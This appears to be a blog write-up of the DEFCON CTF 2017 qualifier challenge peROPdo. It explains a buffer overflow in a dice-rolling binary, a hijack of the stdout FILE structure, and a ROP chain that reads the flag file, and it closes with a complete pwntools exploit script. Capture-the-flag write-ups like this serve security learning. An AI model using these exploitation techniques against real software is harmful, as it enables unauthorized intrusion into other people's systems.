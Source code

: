 ```yaml
---
title: DEFCON CTF 2017 Quals -- peROPdo
tags:
  - Python
  - C
  - DEFCON
  - CTF
  - Pwnable
  - ROP
  - BOF
  - file_stream_pointer_overflow
categories:
  - write-ups
date: 2017-05-02 14:58:00
---
```

**Category:** Potent Pwnables

32 bit ELF, static link, stripped, NX enabled, No PIE & canary.  

<!-- more -->

The program is a "rolling dice" program. First we input our name, then the program will ask us how many dice would we like to roll. After we input a number, the program will start generating some random data, then store them on the stack memory. The program will then print out `data[i] % 6 + 1`, which represent the numbers we roll in this round. 

There're two vulnerabilities in the program. First it use `scanf("%s", name)` to read our name, which lead to buffer overflow in the `name` buffer. Then, if we input a number that is larger than **23**, the data that program generated will overflow the `data[i]` buffer and **thus overwrite the return address** ( it will be a random data though ).  

Since the binary was stripped, I wasn't sure which algorithm the program used for randomizing, the only thing I knew is that the algorithm will use our name to generate the random data. At that moment, I thought it was just some self-implement function ( which is **NOT** correct, we'll get into that later).  

And so I thought "Hmmm, maybe I could use some symbolic execution tool to calculate the address I want to return, and do the ROP attack". **This was such a huge mistake**, since I'm not familiar with any of the symbolic execution tools -- [angr](http://angr.io/), [Triton](https://github.com/JonathanSalwan/Triton), not to mention the fresh out [manticore](https://github.com/trailofbits/manticore). Even worse, all of the tool failed to calculate the address -- Triton and manticore couldn't even execute the program, it just crashed :(  

After wasting lots of time with those symbolic execution tools, I decided to try something different -- the first vulnerability: overflowing the `name` buffer. And the result was encouraging -- since I found that I could hijack the control flow by using the `call reg` and the `call [reg+offset]` gadget ( we can control the content of several registers ). It seems that there're some `FILE*` pointer behind the `name` buffer, so we can exploit the service by [abusing the FILE structure](https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/) ( we can't control the function parameters though). 

Here I chose to use the second gadget ( `call [reg+offset]` ), since when the program execute to that line of code, its second parameter will be the `FILE*` pointer of `stdout`. I control the `eip` and jump to the middle of the main function:  
```
mov     dword ptr [esp+4], offset name
mov     dword ptr [esp], (offset aSSSS+8) ; "%s" <--- I jump to here
call    scanf
mov     eax, ds:name
mov     [esp], eax
call    sub_0804baf0
mov     dword ptr [esp], offset name
call    do_main
```

This will make the program store the `%s` string to the first parameter, then call the `scanf` function, making the program calling `scanf("%s", stdout)` -- and thus we can control the content of `stdout` !

By crafting `stdout`, we can actually hijack the control flow, while having the first parameter controlled. This allowed us to do some advanced ROP attack. Here's what I did after I controlled the `eip`:  
1. Jump to `xchg esp, eax` gadget, migrate the stack to `stdout` (which now controlled by us)  
2. Use `add esp, offset` to skip the uncontrollable member data in `stdout`  
3. Since it's a static linked binary, it's easy for us to find some gadgets and do the **open/read/write** syscall, making the service print out the flag of the challenge. (The **execve** syscall seems to be filtered out in this challenge)  


Final exploit:  
```python exp_peropdo.py 
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "peropdo_bb53b90b35dba86353af36d3c6862621.quals.shallweplayaga.me"
PORT = 80
ELF_PATH = "./peropdo"

context.binary = ELF_PATH
context.log_level = 'INFO' # ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.terminal = ['tmux', 'splitw'] # for gdb.attach

elf = context.binary # context.binary is an ELF object

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)
    
    #gdb.attach(r, gdbscript=open("./ggg", "r"))
    func = 0x0806d7aa # avoid crash
    scanf = 0x08048b2a
    name = p32(scanf) + p32(func) + "\x42"*972 + p32(0x80ecdf4) + '\x00'*92  + p32(0x80ecdf8) 
    r.sendlineafter("name?", name)

    # Later the program will call scanf("%s", stdout);
    # now we can overwrite the whole stdout FILE structure

    stream = p32(0x08079824) # second gadget: add esp, 0x84....
    stream += "/home/peropdo/flag\x00" # flag path
    stream = stream.ljust(0x1c, '\0')
    stream += p32(0x804b45c) # eip, first gadget: xchg esp, eax ; ret
    stream = stream.ljust(0x48, '\0')
    stream += p32(0x080ED3E8) # pointer to null
    stream = stream.ljust(0x90, '\0')
    stream += p32(0x807982b) # third gadget: pop; ret
    stream += p32(0x80eb2a0) # fake jump table
    
    # 0x08074f2e : mov eax, 5 ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret 
    # 0x08079465 : mov ebx, eax ; mov eax, ebx ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
    pop_ebx = 0x806f322  # pop ebx;ret
    pop_eax = 0x80e3525  # pop eax;ret
    pop_ecx = 0x080e5ee1 # pop ecx ; ret 
    pop_edx = 0x0806f2fa # pop edx ; ret
    int80 = 0x806fae0    # int 0x80 ; ret 
    buf = 0x80ed000-0x100
    rop = flat(
                pop_ecx,
                0,
                pop_edx, 
                0,
                0x08074f2e, # mov eax = 5 (open), pop ebx...
                0x80eb2a4, # ptr to flag path
                [0,0,0],
                int80,              
                pop_eax,
                3, # read
                pop_ebx,
                3, #fd
                pop_ecx,
                buf,
                pop_edx,
                0x100,
                int80,
                pop_ebx,
                1, # fd,
                pop_eax,
                4, # write
                int80
              )

    r.sendline(stream + rop)
    r.interactive()
```

flag: `Thanks to Kenshoto for the inspiration! 5fbb34920c457b2e0855a174b8de3ebc`  

Later did I know (thanks to teammate [Isaac](https://poning.me/)) that there's a thing call [FLIRT](https://www.hex-rays.com/products/ida/tech/flirt/index.shtml) in IDA Pro, which can help the user identify the function call in libc. All we need to do is download a FLIRT signature database from github ( [here's](https://github.com/push0ebp/sig-database) the DB I used for this challenge ), and use **FILE --> Load File --> FLIRT signature file** to load the database. IDA will then identify the function name, making the reverse engineering less painful. By using this technique, we'll be able to identify some libc function, even the location of `stdout`.  

And that's when I found that the "self-implement random" function is actually just `srand()` & `rand()` in libc. According to [meh](https://github.com/mehQQ) from HITCON, you can just brute-force the desired return address. Moreover, because the `name` buffer address is right under the return address, so you can just use `pop esp; ret` to migrate the stack into `name` buffer, and do the ROP attack. Guess I still got a lot of shit to learn :/
